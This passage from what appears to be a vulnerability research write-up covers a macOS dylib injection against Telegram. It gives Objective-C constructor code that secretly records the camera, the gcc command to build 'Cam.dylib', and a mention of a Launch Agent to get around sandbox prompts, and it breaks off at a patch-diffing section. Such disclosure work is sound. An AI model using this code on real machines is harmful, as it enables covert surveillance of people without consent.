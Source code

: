 
```
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];

    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}
```


Finally, This function is marked with the `__attribute__((constructor))` attribute which makes it a constructor function. It is

automatically called before the main function of the program starts running and inside it a new instance of

the `VideoRecorder` class is created and then video recording is started and stopped with a 3 seconds delay between

the `start` and `stop` calls. Now, Let's Save our code into a file and name it `Camexploit.m`:


![](/assets/images/41a17e927a92d9739a3a90aa46b2ec64)


Compiling and testing time:


```
gcc -dynamiclib -framework Foundation -framework AVFoundation Camexploit.m -o Cam.dylib
```


![](/assets/images/ad0a1dc46368b82e747a4c312e84af82)


Here we can see it recorded successfully and saved into `/var/folders/vd/0qrj318n3jz1b78pwxcyxjjm0000gn/T/recording.mov`. The `Mac` I

am using is `Mac-Mini M2 CHIP`. In other versions of `telegram` it may output that the terminal wants to access the camera.

Because of sandbox restrictions. In this case, we are going to use `Launch Agent` it to bypass it. In the next part.


# **Patch Diffing**


![](/assets/images/52a7650a13c2177febe1867ab813bd0a)


Here is the patch diffing between the version we worked on and the last version. Is that we can easily see that in
